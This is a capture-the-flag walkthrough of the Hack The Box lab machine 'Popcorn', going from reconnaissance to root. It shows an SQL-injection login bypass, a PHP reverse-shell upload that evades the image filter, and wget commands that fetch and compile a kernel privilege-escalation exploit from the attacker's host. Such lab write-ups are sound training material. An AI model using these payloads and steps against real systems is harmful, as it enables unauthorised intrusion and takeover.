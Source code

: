 ```yaml
---
layout: post
title: Popcorn(HTB)
categories:
  - Writeup
---
```


<br>OS Linux
<br>IP: 10.10.10.6
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.6

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-19 09:18 EST
<br>Nmap scan report for 10.10.10.6
<br>Host is up (0.15s latency).
<br>Not shown: 998 closed ports
<br>PORT   STATE SERVICE VERSION
<br><font color="BB69EC">22/tcp</font> open  ssh     <font color="53E100">OpenSSH 5.1p1 Debian 6ubuntu2</font> (Ubuntu Linux; protocol 2.0)
<br><font color="BB69EC">80/tcp</font> open  http    <font color="53E100">Apache httpd 2.2.12</font> ((Ubuntu))
<br>No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

<br>Network Distance: 2 hops
<br>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 88.76 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

**Gobuster**:- To Bruteforce Web Directory
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># gobuster -e -u http://10.10.10.6/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt</p> 

<p>Gobuster v1.2                OJ Reeves (@TheColonial)
<br>=====================================================
<br>[+] Mode         : dir
<br>[+] Url/Domain   : http://10.10.10.6/
<br>[+] Threads      : 500
<br>[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
<br>[+] Status codes : 301,302,307,200,204
<br>[+] Expanded     : true
<br>=====================================================
<br>http://10.10.10.6/index (Status: 200)
<br>http://10.10.10.6/test (Status: 200)
<br><font color="53E100">http://10.10.10.6/torrent</font> (Status: 301)
<br>http://10.10.10.6/rename (Status: 301)
<br>=====================================================
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>From the gobuster we can see there is a directory **/torrent** in which _Torrent Hoster_ is running.
![Torrent](https://teckk2.github.io/assets/images/Popcorn/1-Popcorn.jpeg)
Now to get inside There are two ways either you can signup a new user or you can do **_sqli loggin bypass_**.
![SQLi bypass](https://teckk2.github.io/assets/images/Popcorn/2-Popcorn.JPG)
<br>In the _Username_ field we will use **{user' 1=1 LIMIT 1;#}** and in the _Password_ field you can use anything like **{password}**.
<br>Using this we can get admin access
![Admin Pannel](https://teckk2.github.io/assets/images/Popcorn/3-Popcorn.JPG)
Now go to the Upload Tab, and there we can only upload a torrent file so Download a valid torrent file or create a [new torrent file](https://www.wikihow.com/Create-a-Torrent)
![Torrent file](https://teckk2.github.io/assets/images/Popcorn/4-Popcorn.JPG)
<p>After uploading the file you will see there is a category _Screenshots_, where we can upload an image, So click on _edit this torrent_ and a new window will pop-up, And you need to remeber one thing we can upload only an image files(_jpg, jpeg, gif, png._). So now We have to bypass the image upload file restriction and need to upload our php reverse-shell in that place.</p>
<br> First Download the PHP standalone [reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) or 
<br>Just open the file {<font color="red">root@kali</font>:<font color="RoyalBlue">/usr/share/webshells/php</font>#cat php-reverse-shell.php}
<br>Now open the file and change the IP and Port, Then change the file extension from {file.php} to {file.php;.png}.
<br>And browse the file to upload  
![upload](https://teckk2.github.io/assets/images/Popcorn/5-Popcorn.JPG)
<br>Now capture the upload request in _BURP_
![upload request-1](https://teckk2.github.io/assets/images/Popcorn/6-Popcorn.JPG)
<br>And change the extension from {_teck.php;.png_} to {_teck.php_} and forward it.
![upload request-2](https://teckk2.github.io/assets/images/Popcorn/7-Popcorn.JPG)
<br>Now open up the listner and then click on the [Image File Not Found!] box in a new tab
![image not found](https://teckk2.github.io/assets/images/Popcorn/8-Popcorn.JPG)
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nc -nlvp 4455
<br>listening on [any] 4455 ...
<br>connect to [10.10.14.14] from (UNKNOWN) [10.10.10.6] 52549
<br>Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br> 19:50:19 up 1 day, 18:50,  0 users,  load average: 0.00, 0.00, 0.00
<br>USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>/bin/sh: can't access tty; job control turned off
<br>$ id
<br>uid=33(www-data) gid=33(www-data) groups=33(www-data)
<br>$uname -a
<br>Linux popcorn <font color="53E100">2.6.31-14-generic-pae</font> #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
<br>$</p> 
</div>
</font>
<br>Now we have the web-shell adn the target machine kernal is 2.6.31-14 maybe we can any epxloit for it.
<br>**Exploit**:- [Linux Kernel 2.6.37 'Full-Nelson.c' Local Privilege Escalation](https://www.exploit-db.com/exploits/15704/)
<br>**POC**:-
Download/Copy the epxloit into your kali machine, transfer the file using apache web server or a Python web server
![python web](https://teckk2.github.io/assets/images/Popcorn/9-Popcorn.JPG)
<br>Now download the file into the target machine then compile and run it.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>$ /bin/bash -i
<br>bash: no job control in this shell
<br>www-data@popcorn:/tmp$ wget http://10.10.*.*:8000/exploit.c
<br>wget http://10.10.*.*:8000/exploit.c
<br>--2017-12-19 20:19:02--  http://10.10.*.*:8000/exploit.c
<br>Connecting to 10.10.*.*:8000... connected.
<br>HTTP request sent, awaiting response... 200 OK
<br>Length: 9248 (9.0K) [text/plain]
<br>Saving to: `exploit.c'

<br>     0K .........                                             100% 54.6K=0.2s

<br>2017-12-19 20:19:03 (54.6 KB/s) - `exploit.c' saved [9248/9248]

<br>www-data@popcorn:/tmp$ gcc exploit.c -o exploit
<br>gcc exploit.c -o exploit
<br>www-data@popcorn:/tmp$ chmod +x exploit
<br>chmod +x exploit
<br>www-data@popcorn:/tmp$ ./exploit
<br>./exploit
<br>id
<br>uid=0(<font color="53E100">root</font>) gid=0(<font color="53E100">root</font>)</p>
</div>
</font>
**Flags**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p>/bin/bash -i
<br>bash: no job control in this shell
<br>root@popcorn:/tmp# cd /home
<br>cd /home
<br>root@popcorn:/home# ls
<br>george
<br>ls
<br>root@popcorn:/home# cd george
<br>cd george
<br>root@popcorn:/home/george# ls
<br>torrenthoster.zip
<br>user.txt
<br>ls
<br>root@popcorn:/home/george# cat user.txt
<br>cat user.txt
<br><font color="53E100">************************</font>
<br>root@popcorn:/home/george# cd /root
<br>cd /root
<br>root@popcorn:/root# ls
<br>root.txt
<br>ls
<br>root@popcorn:/root# cat root.txt
<br>cat root.txt
<br><font color="53E100">************************</font>
<br>root@popcorn:/root#</p> 
</div>
</font>

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>







